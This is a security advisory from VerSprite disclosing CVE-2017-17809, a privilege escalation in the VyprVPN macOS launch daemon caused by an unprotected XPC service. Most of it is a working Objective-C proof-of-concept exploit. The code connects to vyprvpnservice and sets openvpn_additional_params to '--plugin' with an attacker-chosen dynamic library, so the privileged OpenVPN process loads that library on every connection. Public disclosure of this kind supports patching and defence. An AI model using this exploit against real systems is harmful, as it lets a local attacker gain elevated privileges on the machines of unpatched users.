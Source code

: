 ### [VS-2017-007] VyprVPN for MacOS Privilege Escalation Vulnerability 

```
Download: https://www.goldenfrog.com/vyprvpn
CVE: CVE-2017-17809
Author: Benjamin Watson of VerSprite Security
Affected: < 2.15.0.5828
```

#### Vulnerability Details

The VyprVPN's vyprvpnservice launch daemon has an unprotected XPC service that allows attackers to update the underlying OpenVPN configuration and the arguments passed to OpenVPN binary when executed. 
An attacker can abuse this vulnerability by forcing the VyprVPN application to load a malicious dynamic library every time a new connection is made.

#### Exploitation

#### PoC

```c
// Make XPC connection
NSLog(@"[+] Connecting to vyprvpnservice [!]");
xpc_connection_t connection = xpc_connection_create_mach_service("vyprvpnservice", NULL, 0);
assert(connection);
NSLog(@"[+] Service connection successfull [!]");
// Set XPC event handler
xpc_connection_set_event_handler(connection, ^(xpc_object_t event) {
    NSLog(@"[+] Received response from XPC service event handler [!]");
    char *description = xpc_copy_description(event);
    NSLog(@"[+] %s", description);
    free(description);
});
// Resume connection
xpc_connection_resume(connection);
// Build payload
NSLog(@"[+] Building XPC dictionary [!]");
xpc_object_t payload = xpc_dictionary_create(NULL, NULL, 0);
// {+} {"RequestedKey":"openvpn_additional_params","Value":"--plugin \/path\/to\/dylib","Action":"set"}
NSDictionary *dict = [[NSDictionary alloc] initWithObjectsAndKeys:@"openvpn_additional_params", 
              @"RequestedKey", 
              @"--plugin /Users/rotlogix/Development/Plugin/libPlugin", 
              @"Value", @"set", 
              @"Action", nil];
NSData *json = [NSJSONSerialization dataWithJSONObject:dict options:NSJSONWritingPrettyPrinted error:NULL];
xpc_dictionary_set_data(payload, "data", json.bytes, json.length);
NSLog(@"[+] XPC dictionary creation finished [!]");
// Send the XPC message
NSLog(@"[+] Sending XPC message with updated params --plugin /Users/rotlogix/Development/Plugin/libPlugin [!]");
xpc_connection_send_message_with_reply(connection, payload, NULL, ^(xpc_object_t event) {
    size_t dataLength;
    NSLog(@"[+] Received response from XPC service [!]");
    char *description = xpc_copy_description(event);
    NSLog(@"[+] %s", description);
    free(description);
    const void *returnData = xpc_dictionary_get_data(event, "data", &dataLength);
    NSData *myData = [NSData dataWithBytes:returnData length:dataLength];
    assert(myData);
    NSJSONSerialization *json = [NSJSONSerialization JSONObjectWithData:myData options:NSJSONReadingMutableLeaves error:NULL];
    NSLog(@"[+] %@", json );
});
```
